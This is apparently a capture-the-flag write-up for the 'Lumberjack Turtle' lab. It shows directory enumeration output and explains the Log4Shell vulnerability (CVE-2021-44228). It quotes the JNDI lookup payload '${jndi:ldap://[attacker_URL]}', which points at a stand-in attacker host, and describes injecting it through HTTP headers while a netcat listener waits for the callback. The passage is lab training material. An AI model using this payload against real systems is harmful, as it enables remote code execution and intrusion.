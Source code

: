 ![website2](../../assets/img/posts/Lumberjackturtle/website2.png)

Again it tells us to go deeper !

## /log4j

```bash
┌──(root💀kali)-[~/thm/Lumberjackturtle]
└─$ dirsearch -u http://lumberjackturtle.thm/~logs/ -w /usr/share/wordlists/dirb/common.txt 

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /home/shebu/.dirsearch/reports/lumberjackturtle.thm/~logs_22-01-28_06-10-12.txt

Error Log: /home/shebu/.dirsearch/logs/errors-22-01-28_06-10-12.log

Target: http://lumberjackturtle.thm/~logs/

[06:10:12] Starting: 
[06:10:52] 200 -   47B  - /~logs/log4j

Task Completed
```
Seems like a dead end. The comment here tells us that its vulnerabele

# Shell as Docker root
-----------------------

## Testing for log4j


> The Log4shell (CVE-2021–44228) vulnerability affects how Log4j processes log messages. By sending specially crafted messages to a system that uses Log4j, a threat actor can cause the system to load external code, leading to an RCE.
>
> Attackers can take advantage of it by just inserting a line of code like ${jndi:ldap://[attacker_URL]} 



Intercept the request in burp and send it to repeater tab. Set up a netcat listener on your terminal to look for any incoming connections . 

First lets test for log4j on `User-Agent` header.

![burp1](../../assets/img/posts/Lumberjackturtle/burp1.png)

We get a hint in response - `CVE-2021-44228 IN X-Api-Version` .

Testing it again but this time sending out payload in **X-Api-version** header.
